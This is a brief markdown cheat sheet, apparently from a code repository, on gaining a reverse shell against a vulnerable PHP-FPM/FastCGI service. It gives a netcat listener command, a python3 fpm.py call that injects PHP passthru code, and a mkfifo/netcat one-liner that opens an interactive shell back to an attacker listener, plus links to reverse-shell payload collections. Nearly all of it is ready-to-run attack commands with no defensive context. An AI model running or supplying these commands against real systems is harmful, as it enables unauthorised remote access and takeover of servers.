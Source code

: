 # Tools

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

https://www.revshells.com/



## Listener

`nc -nlvp 80`


## Connect (Get reverse shell)

Example execution of python script against vulnerable fpm server in order to get reverse shell.

In this example fpm gets triggered against fastcgi port calling exploitable php file.
``` bash
    python3 fpm.py -c "<?php passthru('rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c \"cat /tmp/x | /bin/sh -i 2>&1 | nc <listener_IP> <listner_port> > /tmp/x\"'); ?>" -p <vulnerable_port> <Vulnerable_IP> /var/www/html/<path_to_file>
```

### Reverse shell command
 `rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c \"cat /tmp/x | /bin/sh -i 2>&1 | nc <Listener_IP> 80 > /tmp/x\"`
